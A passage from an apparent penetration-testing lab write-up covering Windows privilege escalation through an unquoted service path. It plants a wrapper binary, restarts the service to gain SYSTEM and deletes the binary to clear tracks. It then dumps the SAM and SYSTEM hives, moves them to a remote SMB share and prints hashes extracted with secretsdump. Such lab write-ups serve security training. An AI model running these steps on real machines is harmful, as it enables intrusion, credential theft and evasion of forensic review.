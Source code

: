 Exploiting unquoted service path!! And this is the vulnerable path. `C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe`

And we have full access to `C:\Program Files (x86)\System Explorer` and now we can add our wrapper here and call it as System.exe.

1. copy %TEMP%\wrapper-USERNAME.exe "C:\Program Files (x86)\System Explorer\System.exe"

Now we can restart the box if we can but unfortunately we can't. So let's restart the service.

2. sc stop SystemExplorerHelpService
3. sc start SystemExplorerHelpService

And we get an error message in remote machine quoting `server didn't respond to start pr control request`. This is because we made it it execute our System.exe. ANd we are in as `nt authority\system`.

## Clearing Tracks

```
del "C:\Program Files (x86)\System Explorer\System.exe"
sc start SystemExplorerHelpService
```

# Exfiltrate Data

We can dump hashes locally in Linux by `cat /etc/shadow`. But fr Windows the hashes are stored in `C:\Windows\System32\Config\SAM`. But they are not readable.

We have to dump SAM hive.

1. reg.exe save HKLM\SAM sam.bak
Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine
2. reg.exe save HKLM\SYSTEM system.bak

Let's move them to our local machine. 

move sam.bak \\10.50.115.25\share\system.bak
move system.bak \\10.50.115.25\share\system.bak

python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

```
[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```